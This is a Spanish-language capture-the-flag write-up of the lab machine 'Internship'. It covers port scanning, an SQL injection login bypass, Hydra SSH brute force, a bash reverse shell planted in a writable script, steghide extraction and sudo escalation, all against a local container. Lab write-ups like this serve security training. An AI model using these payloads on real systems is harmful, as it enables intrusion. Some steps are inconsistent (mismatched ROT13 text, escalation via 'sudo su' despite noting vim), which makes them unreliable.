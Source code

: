 # 🧠 **Informe de Pentesting – Máquina: Internship**

### 💡 **Dificultad:** Fácil

![Despliegue](Imágenes/2025-05-19_20-20.png)

---

## 📝 **Descripción de la máquina**

*Internship* es una máquina de dificultad baja diseñada para simular un entorno realista de pasantes que han cometido errores comunes de seguridad, incluyendo malas configuraciones, contraseñas débiles, y almacenamiento inseguro de archivos. Ideal para practicar reconocimiento, inyección SQL, fuerza bruta y escalada de privilegios.

---

## 🎯 **Objetivo**

El objetivo es obtener acceso inicial al sistema, escalar privilegios hasta obtener acceso como `root`, y capturar la flag de cada usuario comprometido.

---

## ⚙️ **Despliegue de la máquina**

Se descomprime el archivo y se lanza el contenedor Docker con el script proporcionado:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Se verifica conectividad hacia la IP del contenedor con un `ping`:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP

![Puertos](Imágenes/Capturas_2.png)

Después, identificamos servicios y versiones:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento Web**

Accedemos a `http://172.17.0.3/` y encontramos una página de bienvenida:

![Pagina](Imágenes/Capturas_4.png)

En el código fuente descubrimos el dominio `gatekeeperhr.com`. Para acceder correctamente, lo añadimos al archivo de hosts:

```bash
sudo nano /etc/hosts
```

Agregamos:

```
172.17.0.3 gatekeeperhr.com
```

![Dominio](Imágenes/Capturas_6.png)
![hosts](Imágenes/Capturas_7.png)

Esto nos da acceso a una pantalla de inicio de sesión:

![Registro](Imágenes/Capturas_8.png)

---

## 🧨 **Inyección SQL**

Probamos una inyección simple:

```
Usuario: ' OR 1=1-- -
Contraseña: (cualquier valor)
```

Esta inyección manipula la consulta SQL para que siempre devuelva verdadero, permitiendo el acceso sin credenciales válidas.

![Registro](Imágenes/Capturas_9.png)
![Registro](Imágenes/Capturas_10.png)

Desde la interfaz obtenemos posibles nombres de usuarios.

---

## 🔎 **Fuzzing y Análisis Web**

Fuzzing sobre el dominio revela múltiples rutas interesantes:

```
/about.html
/contact.html
/default
/spam
/includes
/lab
```

![Fuzzing](Imágenes/Capturas_11.png)

En `/spam`, se muestra una pantalla negra, pero el código fuente revela un mensaje cifrado con ROT13:

```
Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
```

Descifrado con:

```bash
echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```
La contraseña de uno de los pasantes es 'purpl3'
```

---

## 🛠️ **Ataque Fuerza Bruta (Hydra)**

Creamos un archivo `users.txt` con los nombres de los pasantes y realizamos fuerza bruta con Hydra:

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4
```

Se descubren credenciales válidas:

```
[22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
```

![Hydra](Imágenes/Capturas_12.png)

---

## 🧑‍💻 **Acceso SSH y Primer Flag**

Accedemos vía SSH:

```bash
ssh pedro@172.17.0.3
```

No tiene permisos `sudo`. Encontramos la flag `fl4g.txt` en su home. En `/opt` hay un script `log_cleaner.sh` editable por nosotros. Lo modificamos para lanzar una reverse shell:

```bash
nano log_cleaner.sh
```

Agregamos:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Escuchamos la conexión:

```bash
sudo nc -lvnp 443
```

![payload](Imágenes/Capturas_15.png)

---

## 🕵️‍♂️ **Análisis de Archivos Ocultos**

Desde la cuenta `valentina` encontramos la imagen `profile_picture.jpeg`, la copiamos a `/tmp` y damos permisos globales para su análisis:

```bash
cp ~/profile_picture.jpeg /tmp
chmod 777 profile_picture.jpeg
```

![Imagen](Imágenes/Capturas_13.png)

Desde nuestra máquina, la descargamos con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Usamos `steghide` para extraer archivos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Nos pide una contraseña, solo presionamos `Enter`. Se extrae `secret.txt`:

```bash
cat secret.txt
```

Contenido:

```
mag1ck
```

![Contraseña](Imágenes/Capturas_14.png)

---

## 🧗‍♂️ **Escalada de Privilegios**

Nos cambiamos a `valentina` con la contraseña `mag1ck`:

```bash
su valentina
```

Verificamos sus privilegios:

```bash
sudo -l
```

Salida:

```
(ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Esto permite escalar a root usando `vim`. Ejecutamos:

```bash
sudo su
```

¡Acceso root conseguido! 🚩

![rott](Imágenes/Capturas_16.png)

---


